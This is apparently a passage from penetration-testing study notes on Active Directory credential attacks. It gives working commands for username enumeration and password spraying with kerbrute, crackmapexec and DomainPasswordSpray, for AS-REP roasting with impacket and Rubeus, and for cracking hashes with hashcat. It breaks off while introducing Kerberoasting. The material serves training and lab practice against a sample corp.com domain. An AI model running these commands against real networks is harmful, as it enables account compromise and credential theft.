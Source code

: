 ```bash
 __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

PS C:\Tools> type .\usernames.txt
# Validate Usernames
PS C:\Tools> .\kerbrute_windows_amd64.exe userenum -d corp.com --dc=dc1.corp.com usernames.txt
# Password Spraying
PS C:\Tools> .\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"

# If NTLM is enabled, you can use crackmapexec
kali@kali:~$ crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
```

```bash
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

#### AS-REP Roasting

Must have "Do not require Kerberos preauthentication" enabled. Will provide AS-REP hash with session key and TGT, which you can try to crack with HashCat or crackstation.net.

```bash
kali@kali:~$ impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
kali@kali:~$ sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

We can also perform AS-REP Roasting on Windows using Rubeus. Since we're performing this attack as a pre-authenticated domain user, we don't have to provide any other options to Rubeus except asreproast. Rubeus will automatically identify vulnerable user accounts. We also add the flag /nowrap to prevent new lines being added to the resulting AS-REP hashes.

```bash
PS C:\Tools> .\Rubeus.exe asreproast /nowrap
```

If no users have the "Do not require Kerberos preauthentication" enabled, but you have GenericWrite or GenericAll on another AD user account, you could reset their password (which would lock them out), or better yet change UAC permissions to enable "Do not require Kerberos preauthentication".

#### Kerberoasting

If we know the SPN  we want to target, we can request a service ticket for it from the domain controller. The service ticket is encrypted using the SPN's password hash. If we are able to request the ticket and decrypt it using brute force or guessing, we can use this information to crack the cleartext password of the service account.

We'll provide hashes.kerberoast as an argument for /outfile to store the resulting TGS-REP hash in. Since we'll execute Rubeus as an authenticated domain user, the tool will identify all SPNs linked with a domain user.
